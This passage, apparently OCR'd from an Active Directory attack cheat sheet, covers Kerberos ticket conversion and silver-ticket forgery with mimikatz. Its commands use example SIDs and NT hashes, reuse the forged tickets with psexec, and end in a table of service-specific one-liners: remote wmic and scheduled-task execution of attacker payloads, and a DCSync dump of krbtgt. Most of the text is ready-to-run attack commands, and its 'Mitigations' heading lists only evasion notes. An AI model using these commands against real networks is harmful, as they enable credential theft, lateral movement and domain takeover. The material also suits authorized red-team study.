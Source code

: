 If you need to swap ticket between Windows and Linux, you need to convert them with `ticket_converter` or `kekeo`.

```powershell
root@kali:ticket_converter$ python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter$ python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```


Mitigations:
* Hard to detect because they are legit TGT tickets
* Mimikatz generate a golden ticket with a life-span of 10 years


### Pass-the-Ticket Silver Tickets

Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

```powershell
# Create a ticket for the service
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |
